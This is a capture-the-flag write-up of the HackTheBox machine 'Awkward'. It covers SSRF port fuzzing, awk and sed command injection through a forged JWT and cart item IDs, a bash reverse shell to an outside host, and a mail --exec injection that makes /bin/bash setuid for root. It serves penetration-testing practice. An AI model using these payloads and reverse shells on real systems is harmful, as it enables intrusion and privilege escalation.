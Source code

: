 # Awkward

---

## Enumeration


- nmap -> port 22, 80
- 10.129.201.62 -> http://hat-valley.htb/
- Cookie -> token:guest ?
- dirScan -> /hr, change token to admin -> redirected to dashboard
- Found API call /api/staff-details -> add to repeater, remove cookie, send -> passwords
- Cracked password: christopher.jones:`chris123`
- Login chrstopher's acc in dashboard -> found JWT
- Cracked JWT Key: 123beany123 `john --format=HMAC-SHA256 --wordlist=rockyou.txt`

- Hit a wall, or a rabbit hole, so I started tinkering with the other API that was discovered earlier `api/store-status`
- The call was `http://hat-valley.htb/api/store-status?url="http://store.hat-valley.htb"`
- Got a login form but the previously cracked passwords didnt work
- Vulnerable to SSRF! Started Fuzzing internally open ports using ffuf

```zsh
ffuf -u 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"' -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -fw 1


0080                    [Status: 200, Size: 132, Words: 6, Lines: 9, Duration: 117ms]
3002                    [Status: 200, Size: 77010, Words: 5916, Lines: 686, Duration: 214ms]
8080                    [Status: 200, Size: 2881, Words: 305, Lines: 55, Duration: 103ms]
```

- Found ports 80, 3002, 8080, wasnt open in nmap scan.

---

## Foothold

- port 3002 reveals all API calls, found a new api `api/all-leave` and it's vulnerable to LFI
`exec("awk '/" + user + "/' /var/www/private/leave_requests.csv"`
- now the token secret comes into play, I crafted a token on `jwt.io` with the secret we revealed and the user name:https://gtfobins.github.io/gtfobins/awk/#file-read

`/' /etc/passwd '`

- Worked:

```zsh
curl 'http://hat-valley.htb/api/all-leave' -H 'Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICcgIiwiaWF0IjoxNTE2MjM5MDIyfQ.9tylijKKGFs_oflVzjygNxrSP9I2Xm47pshOqomJ0rU'
```

- Started reading some files that might be interesting like `/proc/self/environ` and found that LFI is done as www-data
- Finally got `.bashrc` for bean, analyzing it found:

```bash
# custom
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
```

- Found the backup at `/home/bean/Documents/backup/bean_backup_final.tar.gz`, Downloaded it and decompressed it.
- It's bean's home directory, after some manual enumeration, found his password in `.config/xpad/content...`

password is `014mrbeanrules!#P`, tried it for ssh and worked.

---

## Privilege Escalation

- At first I started looking back at the subdomain `store`, and since I'm on the machine and the web server is running `nginx`, I tried reading the .htpasswd file, `admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1`

- The hash is not crackable using rockyou.txt, but the password for bean works for the username admin.
- After some manual enumeration, I found that the root user is periodically running `inotifywait` on /var/www/private which is owned by www-data,
- The subdomain `store` is also owned by www-data, I need a revshell as www-data.
- After scrolling through the site's source code I found an RCE vuln in the `cart_actions.php`, and since I have direct access to the file system, I'll be able to edit the `item_id` on both front and back side of the web app for the check.

```php
//delete from cart
if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {
    $item_id = $_POST['item'];
    $user_id = $_POST['user'];
    $bad_chars = array(";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"); //no hacking allowed!!

    foreach($bad_chars as $bad) {
        if(strpos($item_id, $bad) !== FALSE) {
            echo "Bad character detected!";
            exit;
        }
    }

    foreach($bad_chars as $bad) {
        if(strpos($user_id, $bad) !== FALSE) {
            echo "Bad character detected!";
            exit;
        }
    }
    if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
        system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
        echo "Item removed from cart";
    }
    else {
        echo "Invalid item";
    }
    exit;
}
```

- the `sed` command can execute code: https://gtfobins.github.io/gtfobins/sed/
- First I prepared a revshell file:

```bash
bean@awkward:/tmp/pwn$ cat game.sh

#!/bin/bash
bash -i >& /dev/tcp/10.10.16.2/9001 0>&1
```

- Then I added an item to the cart and it appeared in the directory `/cart`

```bash
bean@awkward:/var/www/store/cart$ ls -la
total 12
drwxrwxrwx 2 root     root     4096 Nov 14 04:17 .
drwxr-xr-x 9 root     root     4096 Oct  6 01:35 ..
-rw-r--r-- 1 www-data www-data   96 Nov 14 04:17 90f0-be51-0bc-4463
```

- Since I do not have permission to edit this file, I deleted it and made my own in `/tmp` and moved it here:

```
***Hat Valley Cart***
item_id=1' -e "1e /tmp/game.sh" /tmp/game.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
```

- now I intercepted the request to delete the item and edited the item id to be : `1' -e "1e /tmp/game.sh" /tmp/game.sh '`
- got revshell as www-data
- now I can edit the `/private/leave_requests.csv` file, and It's being read by `mail`: https://gtfobins.github.io/gtfobins/mail/
- Made a posion file to get upgraded bash with root access:

```bash
bean@awkward:/tmp/pwn$ nano priv.sh
bean@awkward:/tmp/pwn$ chmod +x priv.sh
bean@awkward:/tmp/pwn$ cat priv.sh 

#!/bin/bash
chmod +s /bin/bash
```

- Edited this file:

```bash
echo '" --exec="\!/tmp/priv.sh"' >> leave_requests.csv
```

- And now im root!

```bash
bean@awkward:/tmp$ bash -p
bash-5.1# whoami
root
bash-5.1# 
```

---
